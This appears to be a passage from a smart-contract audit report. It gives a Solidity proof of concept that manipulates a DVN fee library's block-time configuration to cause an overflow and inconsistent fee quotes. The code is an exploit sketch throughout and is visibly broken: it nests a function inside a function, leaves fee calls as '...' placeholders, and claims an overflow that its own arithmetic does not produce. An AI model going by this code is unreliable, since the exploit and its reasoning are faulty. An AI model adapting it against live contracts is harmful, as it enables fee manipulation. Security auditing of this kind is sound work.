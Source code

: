 ### Proof of Concept
```solidity
contract BlockTimeExploit {
    function demonstrateOverflow(address dvnFeeLib) external {
        // 1. Set malicious block time config
        BlockTimeConfig memory config = BlockTimeConfig({
            avgBlockTime: type(uint32).max,  // Maximum possible block time
            blockNum: 1,
            timestamp: uint64(block.timestamp),
            maxPastRetention: type(uint32).max,
            maxFutureRetention: type(uint32).max
        });
        
        // 2. Calculate overflow
        uint64 blockNum = 2;
        // This will overflow:
        // timestamp = config.timestamp + ((blockNum - config.blockNum) * config.avgBlockTime) / 1000
        // = timestamp + (1 * type(uint32).max) / 1000
        // Result: incorrect timestamp, leading to incorrect fees
        
        // 3. Manipulate fees through block time
        function manipulateFees(address dvnFeeLib, uint32 targetEid) external {
            // 1. First set very low block time
            BlockTimeConfig memory lowConfig = BlockTimeConfig({
                avgBlockTime: 1,  // 1ms block time
                blockNum: 1,
                timestamp: uint64(block.timestamp),
                maxPastRetention: 1 days,
                maxFutureRetention: 1 days
            });
            IDVNFeeLib(dvnFeeLib).setDstBlockTimeConfigs([targetEid], [lowConfig]);
            
            // 2. Get low fee quote using recent block
            uint256 lowFee = IDVNFeeLib(dvnFeeLib).getFee(...);
            
            // 3. Switch to high block time
            BlockTimeConfig memory highConfig = BlockTimeConfig({
                avgBlockTime: type(uint32).max,
                blockNum: 1,
                timestamp: uint64(block.timestamp),
                maxPastRetention: 1 days,
                maxFutureRetention: 1 days
            });
            IDVNFeeLib(dvnFeeLib).setDstBlockTimeConfigs([targetEid], [highConfig]);
            
            // 4. Get high fee quote using same block
            uint256 highFee = IDVNFeeLib(dvnFeeLib).getFee(...);
            
            // Result: Massive fee difference for same operation
        }
    }
}
```
